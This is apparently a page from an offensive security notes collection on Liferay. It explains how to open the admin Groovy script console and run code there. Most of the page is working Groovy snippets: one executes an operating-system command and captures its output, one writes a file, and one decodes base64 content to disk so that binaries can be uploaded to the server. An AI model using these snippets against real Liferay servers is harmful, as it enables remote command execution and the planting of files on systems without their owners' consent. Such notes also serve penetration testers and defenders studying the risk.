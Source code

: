 ```yaml
---
title: Liferay
category: Software
order: 7
---
```



# RCE from Goovy console

It is possible to achieve os command execution with goovy scripts.

* [http://localhost/group/control_panel/manage?p_p_id=com_liferay_server_admin_web_portlet_ServerAdminPortlet&p_p_lifecycle=0&p_p_state=maximized&p_p_mode=view&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_mvcRenderCommandName=%2Fserver_admin%2Fview&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_cur=0&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_tabs1=script&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_delta=0
](http://localhost/group/control_panel/manage?p_p_id=com_liferay_server_admin_web_portlet_ServerAdminPortlet&p_p_lifecycle=0&p_p_state=maximized&p_p_mode=view&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_mvcRenderCommandName=%2Fserver_admin%2Fview&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_cur=0&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_tabs1=script&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_delta=0

```
def sout = new StringBuilder(), serr = new StringBuilder()
def proc = 'id'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

Write on a file:

```
def file = new File("test.txt")
file.append("outuput\n")
``

Decode a base64 string and store it to a file, useful to upload binaries on the server.

```
def outputFile = new File("/tmp/test.txt") 
def base64Content = "<BASE64-CONTENT>" 
byte[] decodedBytes = Base64.decoder.decode(base64Content)
outputFile.bytes = decodedBytes
```
